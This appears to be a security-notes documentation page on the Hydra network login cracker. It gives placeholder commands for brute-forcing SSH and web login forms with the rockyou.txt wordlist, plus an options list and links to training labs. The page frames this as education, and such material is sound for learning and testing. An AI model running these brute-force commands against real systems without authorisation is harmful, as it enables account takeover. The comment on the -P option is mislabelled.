 ```yaml
---
title: Hydra
description: Hydra is a parralelized network login cracker, to perform brute force attacks to guess username and password combinations.
---
```


[Hydra](https://github.com/vanhauser-thc/thc-hydra) is a brute force online pasword cracking program, a quick system login password "hacking" tool. It can run through a list and “brute force” some authentication services. Imagine trying to manually guess someone’s password on a particular service ([SSH](/docs/networking/ssh), Web Application Form, [FTP](/docs/networking/ftp) or SNMP) - we can use Hydra to run through a password list and speed this process up for us, determining the correct password.

:::warning
This shows the importance of using a strong password; if your password is common, doesn’t contain special characters and is not above eight characters, it will be prone to be guessed.
:::

```sh title="Brute force SSH login"
hydra -l <username> -P <full path to pass> <HOST_IP> -t 4 ssh
# -l specifies the SSH username for login
# -P specifies the full path to the password file
# -t 4 specifies the number of parallel tasks to run
```

```sh title="Brute force HTTP login"
hydra -l <username> -P rockyou.txt <HOST_IP> http-post-form "<path>:<login_credentials>:<invalid response>"
# -l specifies the username for login
# -P specifies the password file to use
# http-post-form specifies the HTTP POST form to target
# <path> is the path to the login form on the target web application, e.g. "/login.php"
# <login_credentials> are sent in the format "username=^USER^&password=^PASS^"
# <invalid response> is the text that indicates a failed login attempt, e.g. "Invalid username or password"
```

```sh title="Hydra options"
-L <userlist> # -L specifies a file containing a list of usernames
-l <username> # -l specifies a single username to use
-P <passlist> # -L specifies a file containing a list of usernames
-p <password> # -p specifies a single password to use
-t <number> # -t specifies the number of parallel tasks to run
-C <user:passlist> # -C specifies a file containing a list of usernames and passwords in the format user:password
-s <port> # -s specifies the port to connect to (if the service is not running on the default port)
-h # -h displays the help message
```

### Links

- [Hydra](https://github.com/vanhauser-thc/thc-hydra)
- [Try Hack Me Hydra Room](https://tryhackme.com/room/hydra)
- [Kali Hydra Tool Documentation](https://www.kali.org/tools/hydra/)
- [Kali Hydra Tool Page](https://en.kali.tools/?p=220)
- [Kali Word Lists](https://www.kali.org/tools/wordlists/) - This package contains the [rockyou.txt](https://www.keepersecurity.com/blog/2023/08/04/understanding-rockyou-txt-a-tool-for-security-and-a-weapon-for-hackers/) wordlist
- [Collection of multiple types of lists](https://github.com/danielmiessler/SecLists) - Collection of usernames, passwords, URLs, sensitive data patterns and many more
